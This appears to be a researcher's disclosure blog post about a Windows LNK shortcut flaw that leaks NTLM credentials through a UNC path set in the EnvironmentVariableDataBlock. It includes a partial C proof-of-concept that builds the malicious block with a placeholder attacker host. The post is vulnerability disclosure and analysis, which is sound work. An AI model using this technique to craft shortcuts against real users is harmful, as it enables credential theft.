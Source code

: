 ```yaml
---
layout: post
title:  "Right-Click Execution - A Tale of Windows LNK NTLM Leak"
date:   2025-04-28 10:00:00 +0800
---
```


# Overview
I recently identified and responsibly disclosed a potential security issue affecting Windows LNK files (shortcuts). This issue impacts multiple versions of the Windows operating system, including Windows 10 and Windows 11 up to the latest releases. Despite providing a proof of concept demonstrating the security implications, Microsoft has declined to address this vulnerability through a patch, stating it "does not meet their security bar for servicing."

Microsoft's justification centers on their Mark of the Web (MOTW) protection mechanism. According to their response, the issue I identified doesn't present a significant security risk because MOTW protections would be applied to LNK files downloaded from the internet, supposedly mitigating the exploit vector demonstrated in my proof of concept.

This situation highlights an important consideration in the security community about reliance on secondary protection mechanisms versus directly addressing underlying vulnerabilities. While MOTW does provide an additional security layer for files from untrusted sources, it raises questions about scenarios where this protection might be bypassed or when LNK files are delivered through alternative vectors that don't trigger MOTW.

---

# Root Cause Analysis
This post inherit from the previous write up on [Windows LNK - Analysis & Proof-of-Concept](https://zeifan.my/Windows-LNK/). Windows LNK files contain a security issue that allows attackers to craft malicious shortcuts that execute commands while appearing benign to users. 

The vulnerability exploration reveals an attack vector such Structure Manipulation. The exploit leverages specific bits in the LNK file structure, particularly the HasArguments flag and EnvironmentVariableDataBlock with UNC path, to control execution flow.

`EnvironmentVariableDataBlock` seems very sensitive where you have to set the `BlockSize` with 788 bytes (0x00000314) and we have to set the signature of the `EnvironmentVariableDataBlock` which is `0xA0000001`. Once we set this, we can assign the buffer size for `TargetAnsi` with 260 bytes and `TargetUnicode` with 520 bytes. 
This is where our `envPath` will be call later on when we executing the LNK and call the rest of the parameters in the `COMMAND_LINE_ARGUMENTS`. In this case we need to enable the flag `IsUnicode` in `LinkFlags`, which means our arguments are call and executed with Unicode.

It appears that the `envPath` here supports the UNC and we can simply straight call the UNC path we want. So when we assigned the variable `envUNC` to our UNC path, we have to set it when we assigned the space for `TargetUnicode`. The value for our `TargetUnicode` will be included as part of the UNC path. Technically, this code creating `EnvironmentVariableDataBlock` with its argument to UNC.

```c
    const char* envUNC = "\\\\<IP Address Here>\\c";

    DWORD envBlockSize = 0x00000314;
    DWORD envSignature = ENVIRONMENTAL_VARIABLES_DATABLOCK_SIGNATURE;

    if (!WriteFile(hFile, &envBlockSize, sizeof(DWORD), &bytesWritten, NULL)) {
        printf("Failed to write env block size: %lu\n", GetLastError());
        CloseHandle(hFile);
        return 1;
    }

    if (!WriteFile(hFile, &envSignature, sizeof(DWORD), &bytesWritten, NULL)) {
        printf("Failed to write env block signature: %lu\n", GetLastError());
```